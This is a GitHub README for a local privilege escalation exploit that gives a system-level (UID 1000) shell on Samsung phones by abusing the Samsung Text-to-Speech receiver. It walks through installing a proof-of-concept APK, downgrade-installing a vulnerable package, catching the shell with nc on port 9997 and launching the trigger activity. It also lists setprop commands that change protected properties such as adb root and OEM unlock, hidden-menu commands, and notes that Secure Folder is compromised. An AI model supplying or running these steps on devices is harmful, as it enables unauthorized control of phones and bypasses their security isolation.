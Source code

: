 # K0mraid3s-System-Shell
Offical Repo for K0mraid3s System Shell Exploit for Samsung Mobile Devices. 

This is expected to work for EVERY single Samsung Mobile Device made TO-DATE (01/19/2023)

THIS IS ACTIVELY IN DEVELOPMENT - Our goal is to make it more user friendly. and easier to use, so please note things will change and updates will come at any given time, and there is almost certainly bugs to be found and encountered along the way during this, so if you find issues, just let us know here or in support chat, we are VERY active, and can usually get back to you in a few mins. I Will be dynamically updating this repo as things progress, keeping it up-to-date with our current progress.


This is an EXPLOIT to get a System based shell (UID 1000) on ANY Samsung Mobile Device. No clue if or when it will be patched, but has worked on every single Samsung Device tested so far.
THIS IS THE EQUILIVELENT OF DOING su system but this DOES NOT invoke or need "su" in any way.
This DOES NOT trip Knox.
This DOES NOT give you ROOT (UID 0)
This DOES NOT directly unlock your bootloader, although you may be able to find a way to do so using this exploit as a tool.
If you use this for your own works, Please give credit.
Next best thing to root on devices without BootLoader Unlock Option.


Cool things that work:
Access to most of /efs /efs/imei /efs/sec_efs /efs/FactoryApp - Access to most of /data /data/system /data/user/0/ANY_SYSTEM_APP - The "Insthk" bin becomes useable, - Secure Folder/Separated Apps becomes COMPLETELY compromised if you also install the POC in it (UID 150_system) - start IOTHidden Menu, DM Mode, Service Mode, Multiple Debugging and hidden menus as well as preconfig in system context- Change many protected props, such as: 
setprop persist.service.adb.root 1
setprop service.adb.root 1
setprop sys.hidden.otatest 1
setprop sys.hiddenmenu.enable 1
setprop persist.sys.knox.device_owner true
setprop persist.sys.usb.qxdm.debug 1
setprop sys.usb.qxdm.debug 1
setprop presist.service.adb.enable 1
setprop persist.sys.usb.qxdm.debug 1
setprop service.adb.enable 1
setprop persist.rollback.is_test true
setprop sys.oem_unlock_allowed 1
aswell as quite a bit more.


Note* You need to be on Wifi or Hotspot to set this up.



Its fairly simple, a Typical Local Privilege escalation.


The Easy Way -
Step 1 - Download "Komraids System Shell.zip", (attached is the latest version) and extract anywhere on desktop.
Step 2 - Push the "samsungTTSVULN2.apk" to /data/local/tmp
Step 3 - Ensure USB Debugging is ON, and computer is authorized. Also make sure power saving is OFF.
Step 4 - Install komraids_POC_V1.5.apk, reboot device.
Step 5 - When device is fully rebooted and unlocked, run systemshell.exe
Step 6 - You should now be in a shell with UID 1000. Enjoy. Be careful with what you mess with.

Things to note: The.exe only needs to be run once after each reboot, you can use it if you prefer, or, you can manually open a system shell yourself, by following Step 5, from "How it works?" below.


How it works? (sh** for security researchers, devs etc)


Step 1 - Install the included "komraids_POC_V1.5.apk" to the device, then push the included "samsungTTSVULN2.apk" to /data/local/tmp (adb push samsungTTSVULN2.apk /data/local/tmp) -> I advice disabling all battery optimizations for Samsung TTS and Shell, otherwise, it cuts off the shell from time to time.

Step 2 - Make sure ADB is on, Connected and authorized and all power saving is off (as mentioned above) Reboot device.

Step 4 - When device reboots, run this command from ADB. adb shell pm install -r -d -f -g --full --install-reason 3 --enable-rollback /data/local/tmp/samsungTTSVULN2.apk ---> it will return "Success" when done.

Step 5 - Now, open two shells, in the first, do nc -lp 9997 & in the second, do am start -n com.samsung.SMT/.gui.DownloadList -> Look back at the first shell., it should have opened into a new system (UID 1000) shell.

SMT has a receiver that blindly accepts stuff, so a carefully crafted apk (Our "komraids_POC_v1.5.apk") can trick it into loading our neat lib which opens a shell for us on localhost port 9997!

NOTE: You can use something like AppManager, seen here, or another App installer/manager to launch the SMT activity in step 5, and make a shortcut to it on your home screen for easy of access.




You are now UID 1000. Enjoy.



FAQ
Why wont it connect/open the system shell?
Various reasons can cause this, one of the most common is "Battery Optimizations", a form of power saving that can kill our apps. Power Saving is the number one issue for problems with this exploit. Second most common is forgetting to sort out Wifi to STATIC and, believe it or not, turning on ADB. So make sure you either have a full battery and all power saving features are OFF, or are plugged in via USB.
Why does this exist?
Idk, it was supposed to have been patched back in 2019, obviously it wasn't sufficient.

How do I prevent someone from hacking me with this?
Simple, be Offensive, set it up and lock up the lib/port, once your using this exploit, no others can because they cant load a second lib of the same. (the vuln is the lang packs for samsung Text-to-speech, SMT's receiver blindly accepts sh**) -- or, Disable or Remove Samsung Text-To-Speech.

How do I use this in Termux or other Terminal Emulators?
You will need to use the manual way, as described in Step 5 of "How it works?"

I cant get it to work, can anyone help?
Yes, post here or go to our Telegram Group for support, here (click me)

Can this work with LSPosed/LSpatch?
Yes, but it has its limitations currently. I've tested a few modules myself, some work, some don't.

Will this work with Magisk or Shizuku?
Yes, But it depends on @topjohnwu and @Rikka, respectfully, to give the green light to me to incorporate this and post those here or post their compatible versions here on their own. I am open to working with them and have already seen and used a working Shizuku mod using this Exploit, but out of respect, I cannot share it yet.

Will you share the source code?
Yes, I have plans to setup a (public) GitHub repo for this in the near future.


How do i open Hidden stuff?
For now, we will need to do it manually, so try these from System shell
This opens IOTHiden menu
am start -n com.sec.hiddenmenu/.IOTHiddenMenu -e 7267864872 72678647376477466
This opens CID Managers "Preconfig"
am start -n com.samsung.android.cidmanager/.modules.preconfig.PreconfigActivity -a com.samsung.android.action.SECRET_CODE -d secret_code://27262826 --ei type 2 
This opens the DM Mode on/off Toggle
am start -n com.sec.hiddenmenu/.DmMode -e 7267864872 72678647376477466
Ill add more interesting and useful commands/things to do as time goes on. Please do drop any cool things you find here!


BACK STORY:
Its full or drama and BS. I reported this to Samsung in October 2022, but they have decided this is GOOGLES problem and forgot to tell me their decision. LONG STORY CUT SHORT, Between the time Samsung decided this was GOOGLES problem and them telling me of that decision, somehow, "another external security researcher" reported this exact thing to google in the context it was their find. IDK who, nor do I really care at this point. Its done and over with, but stuff like this is what makes some security researches ever hesitant to share their finds, even with the shady vendors/OEMS.

Don't be dumb, I'm not responsible for any dumb sh*t you do.
PWNED - K0mraid3 2022-10-06 175216.png


Big shout out to @wr3cckl3ss1 and alll the others for the help testing, debugging and the massive amount more done to help get this right. It was truely a team effort and nothing less then a labor of love & passion for cybersecurity and learning. I learned more during this project with you guys then I can express.

Huge thanks to @oakieville for the .exe and alot of help tweaking the code of this project.


This project was brought to you by VAULT-TEC Dev Ops!
